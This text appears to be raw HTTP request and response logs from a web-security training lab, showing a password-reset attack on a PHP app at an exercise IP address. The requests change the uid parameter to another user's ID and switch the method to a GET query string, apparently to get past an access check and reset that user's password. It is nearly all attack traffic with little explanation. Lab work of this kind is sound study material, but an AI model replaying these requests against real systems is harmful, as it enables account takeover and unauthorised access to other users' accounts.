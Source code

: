 uid=75&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Academy_student!

HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 21:56:29 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 13
Connection: close
Content-Type: text/html; charset=UTF-8

Access Denied

GET /reset.php HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=52
Connection: close

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Academy_student!

--> Missing parameters

GET /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Academy_student! HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=52
Connection: close

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Academy_student!

HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 22:09:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 29
Connection: close
Content-Type: text/html; charset=UTF-8
